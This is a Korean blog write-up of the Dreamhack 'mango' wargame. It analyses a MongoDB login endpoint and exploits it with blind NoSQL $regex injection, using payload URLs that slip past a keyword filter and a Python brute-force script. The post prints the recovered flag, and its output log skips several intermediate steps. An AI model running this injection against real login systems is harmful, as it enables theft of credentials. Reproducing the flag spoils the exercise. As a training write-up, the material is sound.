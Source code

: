 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (6) : Exercise"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```



# Web Hacking [함께실습] mango
## 웹 서비스 분석

### 엔드포인트 : /login
이용자가 뭐리로 전달한 uid와 upw로 데이터베이스를 검색하고, 찾아낸 이용자의 정보를 반환한다.

```js
app.get('/login', function(req, res) {
    if(filter(req.query)){ // filter 함수 실행
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query; 
    db.collection('user').findOne({ // db에서 uid, upw로 검색
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){ 
            res.send('err');
        }else if(result){ 
            res.send(result['uid']); 
        }else{
            res.send('undefined'); 
        }
    })
});
```

### filter 함수
일부 문자열을 필터링하는 함수로, login의 GET 핸들러를 살펴보면, 이용자의 요청에 포함된 쿼리를 filter 함수로 필터링한다. 해당 함수는 admin, dh, admi라는 문자열이 있을 때 true를 반환한다. (이러한 필터링은 인젝션이 발생할 수 있는 근본적 문제점을 해결하지 못하며, 보안상 안전한 코딩 방식이 아니다.)

```js
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];
filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
```

## 취약점 분석 & 익스플로잇 (Exploit : 취약점 공격)
로그인 페이지를 구성하는 코드에서, 쿼리 전달부를 살펴보면, 쿼리의 변수 타입을 검사하지 않는다
```js
const {uid, upw} = req.query; // 이용자가 전송한 uid, upw 입력값을 가져옴
db.collection('user').findOne({ // db에서 uid, upw로 검색
    'uid': uid,
    'upw': upw,
}
```

1) Blind NoSQL Injection Payload 생성 <br><br>
MongoDB의 $regex 연산을 사용하여 정규표현식을 이용해 데이터를 검색할 수 있고, upw가 일치하는 경우 uid, 아닌 경우 undefined가 출력되는 것을 통해 쿼리의 참과 거짓을 확인할 수 있다.

```
http://host1.dreamhack.games:13698/login?uid=guest&upw[$regex]=.*
```

2) filter 우회 <br><br>
filter 함수가 특정 문자열을 필터링하지만, 정규표현식에서 임의 문자를 의미하는 .을 이용하면 쉽게 우회할 수 있다.

```
http://host1.dreamhack.games:13698/login?uid[$regex]=ad.in&upw[$regex]=D.{*
```
#### 익스플로잇

```python
import requests
import string

url = 'http://host3.dreamhack.games:10122/login?uid[$regex]=adm..&upw[$regex]=D.{'
alphanumeric = string.ascii_letters + string.digits
flag = ''

for i in range(32):
    for char in alphanumeric:
        res = requests.get(url + flag + char + '.*')
        if res.text == 'admin':
            flag += char
            print('DH{' + flag)
            break

print('DH{' + flag + '}')
```
위와 같이 브루트포스를 통해 모든 숫자, 알파벳을 넣어보며 한 글자씩 검사한다. 이 때, 반환되는 text가 admin이라면 해당 글자를 flag에 더해주며 순차적으로 출력한다. <br><br>
결과
```
DH{8
DH{89
DH{89e
DH{89e5
DH{89e50
DH{89e50f
DH{89e50fa
DH{89e50fa6
DH{89e50fa6f
DH{89e50fa6fa
DH{89e50fa6fafe26
DH{89e50fa6fafe260
DH{89e50fa6fafe2604
DH{89e50fa6fafe2604e
DH{89e50fa6fafe2604e3
DH{89e50fa6fafe2604e33
DH{89e50fa6fafe2604e33c
DH{89e50fa6fafe2604e33c0
DH{89e50fa6fafe2604e33c0b
DH{89e50fa6fafe2604e33c0ba
DH{89e50fa6fafe2604e33c0ba0
DH{89e50fa6fafe2604e33c0ba05
DH{89e50fa6fafe2604e33c0ba058
DH{89e50fa6fafe2604e33c0ba0584
DH{89e50fa6fafe2604e33c0ba05843
DH{89e50fa6fafe2604e33c0ba05843d
DH{89e50fa6fafe2604e33c0ba05843d3
DH{89e50fa6fafe2604e33c0ba05843d3d
DH{89e50fa6fafe2604e33c0ba05843d3df
DH{89e50fa6fafe2604e33c0ba05843d3df}
```